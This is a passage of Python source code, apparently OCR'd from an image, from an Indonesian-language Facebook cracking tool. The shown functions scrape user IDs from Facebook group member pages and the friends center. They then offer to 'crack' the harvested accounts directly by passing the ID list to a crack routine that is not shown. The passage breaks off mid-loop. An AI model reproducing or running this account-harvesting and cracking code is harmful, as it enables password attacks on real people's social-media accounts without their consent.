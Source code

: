 	next = saring_id_group0()

	while 1:

		saring_id_group1(buka(next))

		try:

			next = br.find_link(url_regex= '/browse/group/members/').url

		except:

			tampil('\rm[!]Hanya Bisa Mengambil \rh %d id'%len(id_bgroup))

			break

	simpan()

	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])

	if i.upper() == 'Y':

		return crack(id_bgroup)

	else:

		return menu()

def idteman():

	if log != 1:

		tampil('\rh[*]Login dulu bos...')

		login()

		if log == 0:

			keluar()

	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))

	try:

		next = br.find_link(url_regex= 'friends_center_main').url

	except:

		if len(id_teman) != 0:

			tampil('\rm[!]Hanya dapat mengambil \rp%d id'%len(id_bteman))

		else:

			tampil('\rm[!]Batal')

			keluar()

	while 1:

		saring_id_teman(buka(next))

		try:
